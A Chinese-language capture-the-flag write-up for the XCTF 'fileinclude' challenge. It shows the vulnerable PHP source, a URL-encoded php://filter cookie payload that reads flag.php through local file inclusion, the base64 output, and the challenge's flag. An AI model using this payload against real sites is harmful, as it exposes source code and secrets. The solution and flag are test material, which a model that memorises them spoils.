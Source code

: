 # fileinclude

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4c0925be-17ac-11ed-9827-fa163e4fa633&task_category_id=3)

这题我想复杂了……

进来就几个大字，告诉我们flag在flag.php。检查元素发现了源代码。

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

我最开始没搞懂为什么要把display_errors打开。简单介绍一下几个函数，因为跟这次挑战毫无关系，了解一下得了。

- ### ini_get
  > 获取一个配置选项的值
- ### ini_set
  > 设置选项的值
- ### error_reporting
  > 设置错误报告的级别

然后往下看。$lan是cookie“language“的值。$_COOKIE是php里存储cookie的全局数组。setcookie设置一个cookie的值。然后就没了？我们只需要设置cookie为想要读取的文件名就可以进入else分支，然后包含文件。那还是php伪协议，甚至是同一个。用bp可以很简单地增加cookie，repeater里面的inspector随便加。cookie值如下：

- php%3a%2f%2ffilter%2fread%3dconvert.base64-encode%2fresource%3dflag

后面帮我们补上了后缀名所以直接flag就行了。出来了一串base64。

- PD9waHANCiRmbGFnPSJjeWJlcnBlYWNle2Q3YjdkNzdlNTE2YzE1ZTQ3ODU1NTdiMTRiMWU5YjJkfSI7DQo/Pg==

解码就得到了flag。

- ### Flag
  > cyberpeace{d7b7d77e516c15e4785557b14b1e9b2d}
